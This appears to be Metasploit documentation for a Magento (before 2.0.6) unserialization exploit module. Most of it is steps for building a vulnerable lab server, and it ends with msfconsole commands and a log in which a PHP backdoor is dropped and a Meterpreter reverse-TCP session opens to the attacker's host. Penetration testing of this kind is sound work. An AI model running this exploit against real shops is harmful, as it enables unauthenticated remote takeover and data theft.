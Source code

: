 Magento is a popular open-source e-commerce platform written in PHP. An unserialization
vulnerability exists in the product that allows an unauthenticated user to gain arbitrary
code execution.


## Vulnerable Application

Magento Community and Enterprise editions before 2.0.6 are affected. The magento_unserialize module
was specifically tested against version 2.0.6, on Ubuntu 14.04 and Debian.

For testing purposes, you can download the vulnerable applications [here](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz).

## Verification Steps

To set up a vulnerable version of Magento, please follow these steps. This is specific to
Ubuntu 14, and assumes you are installing Magento under /var/www/html/.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install apache2```
3. Enter: ```sudo apt-get install php5```
4. Enter: ```sudo a2enmod rewrite```
5. Add the following content to /etc/apache2/sites-enabled/000-default.conf, inside the virtual block:

```
<Directory /var/www/html>
  Options Indexes FollowSymLinks MultiViews
  AllowOverride All
  Order allow,deny
  allow from all
</Directory>
```

6. Download the [vulnerable Magento app](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz)
7. Extract the compressed file: ```tar -xf magento2-2.0.5.tar.gz```
8. Move the files and directories of magento2-2.0.5 to /var/www/html/ (make sure .htaccess is copied too)
9. In terminal, enter: ```sudo chmod 644 /var/www/html/.htaccess```
10. Enter: ```sudo service apache2 restart```
11. Enter: ```sudo apt-get install mysql-server-5.6```. And follow the installation instructions of MySQL.
12. Enter: ```sudo apt-get install php5-mysql```
13. Enter: ```sudo apt-get install php5-mcrypt```
14. Enter: ```sudo php5enmod mcrypt```
15. Enter: ```sudo apt-get install php5-xsl php5-curl php5-intl```
16. Enter: ```sudo service apache2 restart```
17. cd to /var/www/html, enter: ```sudo mkdir tmp```, and cd to tmp
18. In tmp, do: ```curl -sS https://getcomposer.org/installer | php```
19. Enter: ```sudo mv composer /usr/local/bin/composer```
20. In /var/www/html, do: ```composer install```
21. You will be asked for a username (public key) and password (private key). You can register
    for one here: https://marketplace.magento.com/
22. Back to terminal, enter: ```mysql -h localhost -u root -p[password]```
23. In mysql, enter: ```create database magento```, and exit
24. Go to http://localhost with a browser, and install Magento through the web interface.
25. After installation, back to Magento directory, and enter: ```sudo rm -rf var/cache/*```
26. Enter: ```sudo rm -rf var/generation/*```
27. Enter: ```sudo rm -rf var/page_cache/*```
28. cd to /var/www/html/bin
29. Enter: ```sudo php magento deploy:mode:set developer```. It should say that you're in developer mode.
30. Enter: ```sudo php magento setup:static-content:deploy```
31. Enter: ```sudo php magento indexer:reindex```
32. Enter: ```sudo chmod -R 777 /var/www/html```
33. Go to http://localhost, you should see Magento up and running.
34. From Magento, log in as admin, and create a product. After creating one, make sure this product
    is:
    * Either includes a shipping address, or does not have a weight.
    * Searchable from the front-end.

If at some point the IP (base URL) of Magento has changed, then you will need to do these steps to update:

1. From the terminal, do: ```mysql -h localhost -u [username] -p[password]```
2. In the SQL prompt, do: ```use [magento database name]```
3. Do: ```select * from core_config_data;```, you should see both web/unsecure/base_url (config ID 2) and web/secure/base_url (config ID 3) with the hardcoded IP.
4. Do: ```update core_config_data set value='http://[IP]/' where config_id=2;```
5. Do: ```update core_config_data set value='https://[IP]/' where config_id=3;```
6. Back to the Magento directory, do: ```sudo rm -rf var/cache/*```
7. Also do: ```sudo rm -rf var/generation/*```
8. Also do: ```sudo rm -rf var/page_cache/*```
9. Browse to Magento again with the new IP, it should be up and running again.


After setting up Magento, you can use your exploit module:

1. Start msfconsole
2. Do: ```exploit/multi/http/magento_unserialize```
3. Do: ```set RHOST [IP]```
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [IP]```
6. Do: ```exploit```
7. And you should get a session

## Demonstration

```
msf exploit(magento_unserialize) > check
[*] 192.168.1.108:80 The target appears to be vulnerable.
msf exploit(magento_unserialize) > exploit

[*] Started reverse TCP handler on 192.168.1.94:4444 
[+] 192.168.1.108:80 - generated a guest cart id
[+] 192.168.1.108:80 - backdoor done!
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 6 opened (192.168.1.94:4444 -> 192.168.1.108:46835) at 2016-06-02 17:09:34 -0500
[+] 192.168.1.108:80 - Deleted lP5UgbUBLm1sWN25gWfZBqYKms.php

meterpreter > 
```

